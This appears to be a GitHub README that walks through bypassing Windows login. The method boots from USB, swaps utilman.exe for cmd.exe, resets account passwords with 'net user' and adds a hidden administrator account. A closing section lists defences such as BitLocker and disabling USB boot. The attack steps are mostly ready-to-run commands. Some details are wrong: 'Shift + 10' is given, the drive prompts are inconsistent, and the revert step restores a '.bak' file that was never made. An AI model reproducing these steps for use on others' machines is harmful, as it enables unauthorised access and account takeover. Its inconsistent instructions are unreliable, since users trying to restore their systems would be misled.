<h1 align="center">Windows Login Bypass and Prevention</h1>


## Explaination
We are trying to access CMD so that we can change the Username, Password without Logging in. So, We used Bootable USB: As we can access temporary CMD from there and there is also a way in Windows 10 via Troubleshooting but that's not possible for all Window User.

So after opening CMD we perform some steps like searching for System Files present in our main computer by checking each drive then after searching we go to the System32 Folder and there we contain our utilman.exe and cmd.exe File. So we make a copy of utilman.exe and then changed utilman.exe as cmd.exe. As if we execute utilman.exe file, then cmd.exe will get executed. And utilman.exe is one and only ""Ease of Access"" which is present at the bottom right in Windows. So, after changing that and starting our Windows normally. We can click ""Ease of Access"" and cmd.exe will get executed and we can use out short script for which we were waiting for.

net user username password -> this will change out password for particular account without any problem.

## Requirement

A Computer, Bootable USB for Windows 10

## Steps

1. Restart and boot from Pendrive and after Install Screen appears then hit Shift + 10 and CMD will open up.

2. X: \Sources>
```bash
wmic logicaldisk get name
```

Output:
    Name
    C:
    D:
    E:
    X:


3. X: \Sources>
```bash
C:
#the directory which comtains your system files
```


4. C: \>
```bash
dir
```

Output:
Volume in drive C is System Reserved
Volume Serial Number is 56E1-426F

Directory of C:\
    File Not Found


5. E: \>
```bash
D:
```


6. D: \>
```bash
cd Windows
```


7. D: \Windows>
```bash
cd System32
```


8. D: \Windows\System32>
```bash
ren utilman.exe utilman2.exe
```


9. D: \Windows\System32>
```bash
copy cmd.exe utilman.exe
```


10. Click Ease of Access - cmd will open

11. net user username password


## Creating a New User Account

To create a new user account in the Command Prompt (Username: `NewGuy`, Password: `abc123`), and add them to the Administrators usergroup, use the following commands:

```bash
net user NewGuy abc123 /add
net localgroup Administrators NewGuy /add
```

You should be able to log in immediately with this new account.


## Reverting Changes

To restore utilman.exe, in the Command Prompt, type the following:

C:>
```bash
cd windows\system32
del utilman.exe
ren utilman.exe.bak utilman.exe
```


Then, reboot the system.
To remove the new user account you created earlier, type the following:

```bash
net user NewGuy /delete
```






## Prevention: Protecting Your System

To prevent people from bypassing your Windows password using Command Prompt (CMD) or other methods, you can implement several security measures. Here are some effective strategies:

### **1. Enable Local Security Policies:**

Use the Local Security Policy editor to enforce strong password policies.
* Press Windows + R, type `secpol.msc`, and press Enter.
* Navigate to Local Policies > Security Options and adjust settings like:
    * Accounts: Administrator account status (disable if not needed)
    * Accounts: Guest account status (disable)

### **2. Disable Command Prompt Access:**

You can restrict access to CMD for standard users.
* Press Windows + R, type `gpedit.msc`, and press Enter.
* Navigate to User Configuration > Administrative Templates > System.
* Find the policy "Prevent access to the command prompt" and set it to Enabled.

### **3. Use User Account Control (UAC):**

Ensure UAC is enabled to prevent unauthorized changes.
* Go to Control Panel > User Accounts > Change User Account Control settings and set it to the highest level.

### **4. Limit Administrator Privileges:**

Ensure that users do not have administrative privileges unless necessary.
* Create standard user accounts for daily use and reserve admin accounts for administrative tasks.

### **5. Use BitLocker Encryption:**

Encrypt your drives with BitLocker to protect data.
* Go to Control Panel > System and Security > BitLocker Drive Encryption and enable it for your drives.

### **6. Keep Your System Updated:**

Regularly update Windows to patch vulnerabilities.
* Go to Settings > Update & Security > Windows Update and check for updates.

### **7. Use Strong Passwords:**

Ensure that all user accounts have strong, complex passwords.
* Consider implementing a password manager to generate and store complex passwords.

### **8. Monitor Account Access:**

Enable audit logging to monitor account access and changes.
* In the Local Security Policy, navigate to Local Policies > Audit Policy and enable auditing for logon events.

### **9. Disable Boot from External Devices:**

Prevent users from booting from USB or external drives.
* Access BIOS/UEFI settings during boot and adjust boot order or disable USB booting.
